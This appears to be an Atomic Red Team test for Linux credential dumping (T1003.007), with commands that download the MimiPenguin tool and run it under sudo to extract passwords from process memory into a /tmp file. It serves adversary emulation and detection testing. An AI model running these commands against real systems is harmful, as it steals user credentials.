 **Supported Platforms:** Linux

**auto_generated_guid:** a27418de-bdce-4ebd-b655-38f04842bf0c

#### Inputs:

| Name                 | Description                                | Type | Default Value                                           |
| -------------------- | ------------------------------------------ | ---- | ------------------------------------------------------- |
| output_file          | Path where captured results will be placed | path | /tmp/T1003.007Test3.txt                                 |
| MimiPenguin_Location | Path of MimiPenguin script                 | path | /tmp/mimipenguin/mimipenguin_2.0-release/mimipenguin.sh |

#### Attack Commands: Run with `bash`! Elevation Required (e.g. root or admin)

```bash
sudo #{MimiPenguin_Location} > #{output_file}
cat #{output_file}
```

#### Cleanup Commands:

```bash
rm -f #{output_file} > /dev/null
```

#### Dependencies: Run with `sh`!

##### Description: MimiPenguin script must exist on disk at specified location (#{MimiPenguin_Location})

##### Check Prereq Commands:

```sh
if [ -f "#{MimiPenguin_Location}" ]; then exit 0; else exit 1; fi;
```

##### Get Prereq Commands:

```sh
wget -O "/tmp/mimipenguin.tar.gz" https://github.com/huntergregal/mimipenguin/releases/download/2.0-release/mimipenguin_2.0-release.tar.gz
mkdir /tmp/mimipenguin
tar -xzvf "/tmp/mimipenguin.tar.gz" -C /tmp/mimipenguin
```

##### Description: Strings must be installed

##### Check Prereq Commands:

```sh
if [ -x "$(command -v strings --version)" ]; then exit 0; else exit 1; fi;
```

##### Get Prereq Commands:

```sh
sudo apt-get -y install binutils
```
